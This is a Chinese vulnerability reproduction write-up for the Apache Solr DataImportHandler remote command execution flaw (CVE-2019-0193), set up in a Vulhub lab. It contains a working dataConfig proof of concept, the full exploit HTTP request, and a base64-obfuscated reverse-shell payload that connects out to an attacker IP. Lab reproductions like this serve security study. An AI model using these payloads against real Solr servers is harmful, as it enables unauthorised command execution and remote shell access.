





Apache Solr 远程命令执行漏洞 CVE-2019-0193¶
漏洞描述¶
漏洞原理与分析可以参考：
Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。此次漏洞出现在Apache Solr的DataImportHandler，该模块是一个可选但常用的模块，用于从数据库和其他源中提取数据。它具有一个功能，其中所有的DIH配置都可以通过外部请求的dataConfig参数来设置。由于DIH配置可以包含脚本，因此攻击者可以通过构造危险的请求，从而造成远程命令执行。
本环境测试RCE漏洞。
漏洞影响¶
Apache Solr < 8.2.0
环境搭建¶
Vulhub运行漏洞环境：
docker-compose up -d
docker-compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
命令执行成功后，需要等待一会，之后访问http://your-ip:8983/即可查看到Apache solr的管理页面，无需登录。
漏洞复现¶

如上图所示，首先打开刚刚创建好的test核心，选择Dataimport功能并选择debug模式，填入以下POC：
<dataConfig>
<dataSource type="URLDataSource"/>
<script><![CDATA[
function poc(){ java.lang.Runtime.getRuntime().exec("touch /tmp/success");
}
]]></script>
<document>
<entity name="stackoverflow"
url="https://stackoverflow.com/feeds/tag/solr"
processor="XPathEntityProcessor"
forEach="/feed"
transformer="script:poc" />
</document>
</dataConfig>
点击Execute with this Confuguration会发送以下请求包：
POST /solr/test/dataimport?_=1565835261600&indent=on&wt=json HTTP/1.1
Host: localhost:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 679
Connection: close
Referer: http://localhost:8983/solr/
Cookie: csrftoken=gzcSR6Sj3SWd3v4ZxmV5OcZuPKbOhI6CMpgp5vIMvr5wQAL4stMtxJqL2sUE8INi; sessionid=snzojzqa5zn187oghf06z6xodulpohpr
command=full-import&verbose=false&clean=false&commit=true&debug=true&core=test&dataConfig=%3CdataConfig%3E%0A++%3CdataSource+type%3D%22URLDataSource%22%2F%3E%0A++%3Cscript%3E%3C!%5BCDATA%5B%0A++++++++++function+poc()%7B+java.lang.Runtime.getRuntime().exec(%22touch+%2Ftmp%2Fsuccess%22)%3B%0A++++++++++%7D%0A++%5D%5D%3E%3C%2Fscript%3E%0A++%3Cdocument%3E%0A++++%3Centity+name%3D%22stackoverflow%22%0A++++++++++++url%3D%22https%3A%2F%2Fstackoverflow.com%2Ffeeds%2Ftag%2Fsolr%22%0A++++++++++++processor%3D%22XPathEntityProcessor%22%0A++++++++++++forEach%3D%22%2Ffeed%22%0A++++++++++++transformer%3D%22script%3Apoc%22+%2F%3E%0A++%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E&name=dataimport

执行docker-compose exec solr ls /tmp，可见/tmp/success已成功创建：

同样，构造反弹shell的POC：
<dataConfig>
<dataSource type="URLDataSource"/>
<script><![CDATA[
function poc(){ java.lang.Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=}|{base64,-d}|{bash,-i}");
}
]]></script>
<document>
<entity name="stackoverflow"
url="https://stackoverflow.com/feeds/tag/solr"
processor="XPathEntityProcessor"
forEach="/feed"
transformer="script:poc" />
</document>
</dataConfig>

成功接收反弹shell：
